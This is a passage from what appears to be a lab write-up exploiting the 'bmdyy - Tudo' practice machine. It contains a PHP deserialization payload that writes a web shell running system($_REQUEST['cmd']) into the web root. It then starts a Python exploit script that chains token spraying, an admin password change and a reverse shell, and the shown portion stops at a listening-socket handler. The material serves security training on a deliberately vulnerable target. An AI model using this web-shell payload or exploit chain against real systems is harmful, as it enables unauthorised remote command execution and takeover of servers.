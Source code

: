 ```php
<?php
class Log {
  public $f = '/var/www/html/0x4rt3mis.php';
  public $m = '<?php system($_REQUEST["cmd"]); ?>';
  }
print serialize(new Log);
?>
```

We generate the malicious data

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:34:39.png)

Just send to the server

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:34:58.png)

And we have RCE!

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:35:10.png)

Now, let's chain everything we did until now to get the reverse shell.

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2008:16:33.png)

serialization_reverse.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Token Spray - Change password for an user - Get Admin Token - Get Reverse Shell from Unserialize
# bmdyy - Tudo

import argparse
import requests
import sys
import datetime
import time
import requests
import os
import subprocess
import socket
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler
import socket, telnetlib
from threading import Thread
import base64
import urllib.parse
  
'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
```
